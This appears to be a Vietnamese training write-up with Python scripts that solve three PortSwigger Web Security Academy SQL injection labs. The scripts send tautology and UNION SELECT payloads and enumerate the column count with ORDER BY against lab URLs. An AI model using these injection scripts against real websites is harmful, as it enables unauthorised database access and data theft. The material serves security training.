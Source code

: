 # Mục lục
- [Lab 1](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-1)
- [Lab 3](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-3)
- [Lab 4](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-4)


# LAB 1:

```python
import requests
print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")
target_url = f"{url}/filter?category=Gifts'+OR+1=1+--"

response = requests.get(target_url)
if (response.status_code == 200):
    print("Successful")
else:
    print("Failed")
```

# LAB 3:
```python
import requests

print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")


i = 1
while True:
    order_url = f"{url}/filter?category=Gifts'+ORDER+BY+{i}+--"
    response = requests.get(order_url)

    if response.status_code == 200:
        i += 1  
    else:
        i -= 1  
        break

null_values = ",+".join(["NULL"] * i)
union_url = f"{url}/filter?category=Gifts'+UNION+SELECT+{null_values}--"

print(f"Payload UNION: {union_url}")
response = requests.get(union_url)

if (response.status_code == 200):
    print("Successful")
else:
    print("Failed")
```

# LAB 4:
```python
import requests

print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")
print("Ví dụ: Giá trị được lab cung cấp: aNjdF")
value = input("Giá trị được lab cung cấp: ")

i = 1
while True:
    order_url = f"{url}/filter?category=Gifts'+ORDER+BY+{i}+--"
    response = requests.get(order_url)

    if response.status_code == 200:
        i += 1  
    else:
        i -= 1  
        break

for pos in range(i):
    test_values = ["NULL"] * i  
    test_values[pos] = f"'{value}'"  

    null_values = ",+".join(test_values)
    union_url = f"{url}/filter?category=Gifts'+UNION+SELECT+{null_values}--"
    
    print(f"Thử payload: {union_url}")
    response = requests.get(union_url)
    
    if response.status_code == 200:
        print("Successful")
        break 
```



